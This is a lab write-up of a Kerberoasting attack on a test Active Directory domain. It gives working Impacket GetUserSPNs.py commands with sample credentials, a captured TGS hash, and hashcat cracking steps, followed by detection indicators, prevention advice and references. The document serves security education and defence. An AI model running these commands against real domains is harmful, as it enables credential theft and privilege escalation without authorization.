


# Kerberoasting Attack

**Date:** June 2026  <br>
**Author:** ShahinSecLab <br>
**Category:** Credential Access <br>
**Difficulty:** Medium <br>
**Tools:** Impacket, Hashcat

# Table of content

* [Introduction](#introduction)
* [Attack Flow](#attack-flow)
* [Why This Attack Works](#why-this-attack-works)
* [Lab Setup](#lab-setup)
* [Tools Used](#tools-used)
* [Prerequisites](#prerequisites)
* [Step 1 – Finding Service Accounts](#step-1--finding-service-accounts)
* [Step 2 – Saving Hash to File](#step-2--saving-hash-to-file)
* [Step 3 – Cracking the Ticket](#step-3--cracking-the-ticket)
* [How Defenders Can Catch This](#how-defenders-can-catch-this)
* [How to Prevent It](#how-to-prevent-it)
* [References](#references)
* [Lessons Learned](#lessons-learned)

## Introduction

In Windows networks, services (like SQL Server, IIS, etc.) are registered with something called an SPN (Service Principal Name). When a user wants to access a service, Windows gives them an encrypted service ticket. That ticket is encrypted using the service account's password hash.
Here is the problem — any logged-in domain user can request that ticket, no special permissions needed. An attacker can grab that ticket, take it offline, and crack it to recover the real password.

## Attack Flow
```
Valid Domain Credentials
              ↓
Authenticate as Domain User
              ↓
Enumerate Service Accounts with SPNs
              ↓
Identify Target Service Account
              ↓
Request Kerberos TGS Ticket
              ↓
Extract TGS Hash ($krb5tgs$ Format)
              ↓
Save Hash to File
              ↓
Perform Offline Password Cracking with Hashcat
              ↓
Recover Service Account Password
              ↓
Access Service Account Credentials
              ↓
Potential Privilege Escalation / Further Domain Compromise
```
## Why This Attack Works

Kerberoasting works because of how Kerberos authentication works in Active Directory.

When a user requests access to a service, the Domain Controller creates a Kerberos Service Ticket (TGS). This ticket is encrypted using the password hash of the service account that runs the service.

Any normal domain user can request these service tickets if a service account has an SPN (Service Principal Name) registered. The user does not need administrator access to request the ticket.

The problem happens when service accounts use weak passwords. After getting the ticket, an attacker can try to crack it offline using password cracking tools and recover the service account password.

This attack is possible when:

- Service accounts have SPNs configured.
- Service account passwords are weak.
- Service accounts are not properly managed.
- Privileged services run with high-level accounts.

To reduce the risk, organizations should use strong passwords for service accounts, limit account permissions, regularly check SPNs, and monitor unusual Kerberos activity.

## Lab Setup

| Machine             | Role              |   Ip          |
|---------------------|-------------------|---------------|
| Windows Server 2022 | Domain Controller | `192.168.5.134` |
| Windows 10          | Domain User       | `192.168.5.142` |
| Kali Linux          | Attacker          | `192.168.5.128` |

## Tools Used

| Tool | Purpose |
|----------------|----------------------------------------------|
| Impacket | Used to find service accounts and request Kerberos tickets |
| `GetUserSPNs.py` | Used to identify SPN accounts and extract Kerberos TGS tickets |
| `Hashcat` | Used to crack the extracted Kerberos ticket hash |
| Rockyou Wordlist | Used as a password list for cracking |

## Prerequisites

| What | Why |
|-------------------------------|----------------------------------------------|
| Kali Linux machine | Attacker machine with required security tools installed |
| Active Directory environment | Required for testing Kerberos authentication |
| Domain Controller | Required for managing domain users and services |
| Valid domain user account | Required to request Kerberos service tickets |
| Service account with SPN | Required as the target account for Kerberoasting |
| Network connectivity | Required for communication between attacker and target systems |
| Authorization to test the environment | Ensures the testing is performed legally |

Before starting the attack, I already had valid domain credentials:

| What | Value |
|------|----------------|
| Domain | `readteambd.local` |
| Username | `rahimkhan` |
| Password | `Password1` |

## Step 1 – Finding Service Accounts

First step was to enumerate service accounts that have SPNs registered in Active Directory.
For this, I used Impacket’s `GetUserSPNs.py` tool.

```bash
GetUserSPNs.py readteambd.local/rahimkhan:Password1 -dc-ip 192.168.5.134 -request
```
This command lists all service accounts and automatically requests Kerberos service tickets in a crackable format.

**Flag Breakdown**

| Flag                  |                     Description                      |
|-----------------------|------------------------------------------------------|
| `GetUserSPNs.py`      | Impacket tool used for Kerberoasting. Finds service accounts with SPNs in Active Directory and requests Kerberos service tickets (TGS)|
| `readteambd.local`    | Active Directory domain name                         |
| `rahimkhan:Password1` | Domain username and password used to authenticate    |
| `-dc-ip 192.168.5.134`| IP address of the Domain Controller                  |
| `-request`            | Tells the tool to actually pull the TGS tickets in crackable hash format   |

**Output:**

```
GetUserSPNs.py readteambd.local/rahimkhan:Password1 -dc-ip 192.168.5.134 -request
/usr/local/lib/python2.7/dist-packages/OpenSSL/crypto.py:14: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography import utils, x509
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

ServicePrincipalName                            Name        MemberOf                                                         PasswordLastSet      LastLogon 
----------------------------------------------  ----------  ---------------------------------------------------------------  -------------------  ---------
ReadTeamBD-DC/SQLService.READTEAMBD.local:6011  sqlservice  CN=Group Policy Creator Owners,OU=Groups,DC=READTEAMBD,DC=local  2025-10-31 06:16:29  <never>   

$krb5tgs$23$*sqlservice$READTEAMBD.LOCAL$ReadTeamBD-DC/SQLService.READTEAMBD.local~6011*$96f871a359f348008f60f60c2ec9c111$0661ac2eeb77cd03dbf48722c056055adcfbab......
```
From the output, I identified a service account named sqlservice with an SPN registered in the domain. The command also returned the Kerberos TGS ticket as a $krb5tgs$ hash, which can be cracked offline to recover the service account's password.

Information gathered:
- Service Account: sqlservice
- SPN: SQLService.READTEAMBD.local
- Domain: READTEAMBD.local

<p align="center">
  
</p>

## Step 2 – Saving Hash to File

After identifying the service account, I requested the Kerberos service ticket again and saved the resulting TGS hash to a file for offline password cracking.

```bash
GetUserSPNs.py readteambd.local/rahimkhan:Password1 -dc-ip 192.168.5.134 -request -outputfile kerberoast.txt
```
This command performs the same SPN enumeration as before but also saves the extracted Kerberos TGS hash to `kerberoast.txt` instead of only displaying it on the screen.

## Step 3 – Cracking the Ticket

Next, I used Hashcat to perform offline password cracking.

```bash
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt
```
**Flag Breakdown**

| Flag             |                 Description                     |
|------------------|-------------------------------------------------|
| `-m 13100`       | Hash mode — Kerberos 5 TGS-REP (etype 23 / RC4) |
| `kerberoast.txt` | The file containing the extracted hash          |
| `rockyou.txt`    | The wordlist used to crack the password         |

**Output:**

```
Status: Cracked
Hash Mode: 13100 (Kerberos 5, etype 23, TGS-REP)
Target Account: sqlservice
Recovered Password: Mypassword123#
```
Hashcat successfully recovered the password for the sqlservice account:

<p align="center">
  
</p>

## How Defenders Can Catch This

| Indicator | What to look for |
|-------------------------------|----------------------------------------------|
| Unusual Kerberos ticket requests | Monitor large numbers of TGS requests from a single user |
| Requests for multiple SPNs | Check for users requesting tickets for many service accounts |
| Suspicious Event ID 4769 activity | Review Kerberos Service Ticket request logs |
| Access to service accounts | Monitor unusual authentication attempts using service accounts |
| Service account password cracking attempts | Look for abnormal authentication failures after ticket requests |
| Unusual domain account activity | Monitor unexpected changes and access patterns in Active Directory |

## How to Prevent It

- Use strong, long passwords for service accounts
- Prefer Group Managed Service Accounts (gMSA)
- Enforce least privilege for service accounts
- Regularly audit accounts with SPNs
- Restrict RC4 encryption where possible
- Monitor Kerberos activity continuously

## References

| Category | Resource | Link |
|-------------------------------|--------------------------------|----------------------------------------------|
| MITRE ATT&CK | Kerberoasting (T1558.003) | https://attack.mitre.org/techniques/T1558/003/ |
| Microsoft Documentation | Kerberos Authentication Overview | https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview |
| Microsoft Documentation | Service Principal Names (SPNs) | https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names |
| Microsoft Documentation | Group Managed Service Accounts | https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview |
| Tools Documentation | Impacket | https://github.com/fortra/impacket |
| Tools Documentation | Hashcat | https://hashcat.net/hashcat/ |

## Lessons Learned

- SPNs can expose service accounts and make them targets for Kerberoasting attacks.
- Normal domain users can request Kerberos service tickets without administrator privileges.
- Weak service account passwords can be cracked offline after extracting the ticket.
- Service accounts should be properly protected, especially when they have high privileges.
- Monitoring Kerberos activity can help identify suspicious ticket requests.
- Strong password policies make password cracking more difficult and reduce risk.